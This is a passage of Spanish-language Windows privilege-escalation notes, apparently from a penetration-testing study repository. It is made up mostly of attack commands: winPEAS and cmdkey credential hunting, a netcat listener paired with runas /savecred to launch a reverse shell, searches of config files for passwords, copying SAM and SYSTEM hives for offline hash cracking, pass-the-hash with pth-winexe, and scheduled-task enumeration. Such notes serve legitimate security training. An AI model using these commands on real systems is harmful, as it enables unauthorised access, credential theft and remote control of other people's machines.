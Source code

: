 ```
> winPEASS quiet cmd windowscreds

> cmdkey /list

```

- Con las credenciales válidas podemos usar el **RUNAS**

```
> rlwrap nc -lvnp 443

> runas /savecred /user:admin C:\PrivEsc\reverse.exe

```

### Archivos de configuración

- Algunos administradores dejan archivo de cconfiguración con contraseñas válidas 

```

> dir /s *pass* == *.config

> findstr /si password *.xml *.ini *.txt

> winPEASS quiet searchfast filesinfo
```

### SAM 

- Windows almacena contraseñas hashes en la SAM o también conocido como Security Account Manager, estan encriptados, pero podemos encontrar la key en el fichero de SYSTEM

> Transladar las KEYS y los ficheros SAM a la maquina host para desencriptarlos con herramientas como **creddump7** nos dumpea luego con john o hashcat para crackear. 
- Estan usualmente almacenadas en el directorio C:\Windows\System32\config

- La backup puede estar almacenadas en C:\Windows\System32\config\Regback o C:\Windows\Repair

### Passing the Hash

- Con esta técnica podemos directamente con los hashes dumpeadas anteriormente directamente conectarnos a un usuario solo proporcionando el hash.  pth-winexe

```
> pth-winexe -U 'admin%hash' --system //10.10.10.X cmd.exe
```


## Scheduled Tasks
  
  - Windows puede estar configurado para correr tareas en un momento en concreto o cuando triggerea un evento, las tareas siempre corren con los privilegios de quien ha sido configurada la tarea //similias a las crontab, también es importante fijarse en archivos donde nos indique las tareas.

```
> schtasks /query /fo LIST /v

> accesschk.exe /accepteula -qvu // para ver los permisos 

```
